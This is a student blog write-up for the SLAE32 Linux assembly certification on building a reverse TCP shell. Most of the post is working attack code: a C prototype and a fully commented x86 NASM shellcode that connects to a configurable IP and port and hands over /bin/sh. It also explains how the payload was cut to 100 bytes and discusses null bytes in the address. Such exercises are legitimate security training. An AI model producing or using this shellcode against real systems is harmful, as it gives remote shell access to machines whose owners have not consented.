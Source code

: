 ```yaml
---
layout: page
title: SLAE32 Assignment 2
comments: true
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 2: Reverse TCP Shell</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

The second assignment is to create a reverse tcp shell, with a configurable IP and port. In the first assignment, I opted for features over brevity. In this case, I aim to make the shellcode as short as possible.

Based on the [last assignment](/SLAE32/slae32-assignment1), one important structure that I will need is the `sockaddr_in` struct. The first byte will again be a 2, the second byte will be 0, the next two bytes will be the port, the next four bytes will be the IP address, then there will be 8 null bytes. This is what will get passed to the connect system call. Of course, I wanted to verify this as well as find the socketcall number, so again I created a C program to perform the reverse shell.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(){
	char *execargs[] = {"/bin//sh", 0};
	struct sockaddr_in sa;
	sa.sin_family = AF_INET;
	sa.sin_addr.s_addr = inet_addr("127.0.0.1");
	sa.sin_port = htons(9999);
	int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	connect(sock, (const struct sockaddr *) &sa, 16);
	dup2(sock,0);
	dup2(sock,1);
	dup2(sock,2);
	execve(execargs[0], execargs, 0);
}
```

Running it through gdb as before shows that the socketcall number for `connect` is 3. This can be confirmed by looking at /usr/include/linux/net.h

```
#define SYS_CONNECT     3               /* sys_connect(2)               */
```
Based on this information, as well as what was learned in the first assignment, I was able to write the assembly code. For whatever reason, this one took a lot more debugging. In any case, here is the assembly file, with copious comments to explain each step.

```nasm
; Filename: shell_bind_fork_tcp.nasm
; Author:  Mark Shaneck
; Website:  http://markshaneck.com
;
; Purpose: The purpose of this shellcode connect back
; to a host and port of our choosing

global _start

section .text
_start:

	; First things first, call socket
	; need to call socketcall with args 1, and domain (2), type (1), protocol(6)
	push byte 6 ; protocol = IPPROTO_TCP
	push byte 1 ; type = SOCK_STREAM
	push byte 2 ; domain = AF_INET
	xor eax, eax
	mov al, 102 ; syscall - socketcall
	xor ebx,ebx
	mov bl, 1   ; socket sockcall type
	mov ecx, esp ; pointer to the args
	int 0x80

	; eax now contains the socket file descriptor

	; let's dup the stdio FDs
	pop ecx ; we are going to loop from 2 to 0, and 2 happens to be on the top of the stack
	mov ebx,eax ; put socket file descriptor in ebx
dup:
	mov al, 63 ; dup2 syscall
	int 0x80
	dec ecx
	cmp cl,0xff
	jne dup

	; now we call connect
	; we need the socket file descriptor, a pointer to the sockaddr structure and a 16
	; perform a jmp-call-pop to get the port number so that it is easily configurable
	jmp short get_sockaddr

got_sockaddr:
	pop ecx               ; put address of sockaddr struct into ecx
	mov edx,[ecx+2]
	push edx              ; push the ip address next
	mov dx, word [ecx]    ; put the port into ebx
	shl edx,16            ; move the port number to the higher order bytes
	add dl,2              ; put the socket family in there
	push edx

	mov edx, esp ; now ebx has the address of the sockaddr_in struct
	push byte 0x10
	push edx
	push ebx
	mov ecx, esp
	xor ebx,ebx
	mov bl, 3   ; connect sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

	; we should now be connected

	; execve the shell using stack method
	; let's execute sh
	xor eax,eax
	push eax
	push 0x68732f2f
	push 0x6e69622f

	mov ebx,esp ; pointer to "/bin//sh"
	push eax
	mov edx,esp ; env pointer (NULL)

	push ebx
	mov ecx,esp ; pointer to [pointer to "/bin//sh", 0]

	mov al, 11 ; execve syscall
	int 0x80

get_sockaddr:
	call got_sockaddr
	sockaddr: db 0x27, 0x0f, 0x7f, 0x00, 0x00, 0x01
	; should we worry about the nulls in the ip addr?
```

Compiling and pasting the shellcode into the shellcode stub resulted in a functioning reverse tcp shell.

{% include image name="functional_shellcode.png" width="100%" %}

Total shellcode length was exactly 100 bytes, which was an improvement from my initial straightforward attempt, which was somewhere around 120 bytes. I tried to break the arbitrary 100 byte boundary, but I ran out of ways to shorten it any further. I could probably save a few more bytes by placing the ip address and port in the middle of the program and not using the jmp-call-pop technique to get its location, but I wanted to leave that in for ease of configuration.

Some of the improvements I made in this shellcode, as compared to assignment 1, aside from extra features, was pushing hardcoded bytes onto the stack directly, instead of loading them into registers and pushing those. The other major improvement I made to save some space was to rearrange the functions. Namely, putting `dup2` just after `socket` allowed for reuse of some registers, as the values were already in them.

One limitation of the shellcode is in the IP address. It is placed at the end and it is not encoded. That means that you cannot put an IP address as the destination that contains a null byte. At least, that is, if you need to avoid null bytes. As you can see in my example, I have two null bytes, since I was connecting to 127.0.0.1. However, I didn't want to add the additional complexity of encoding, plus any sort of simple encoding would require some byte to be disallowed from the IP address. The idea that I had was that you could put an encoding byte just after the IP address, and have the shellcode use that byte to decode the address. That way, it could be configurable, along with the IP, and so you could choose a byte that isn't in the address you were connecting to.

</div>

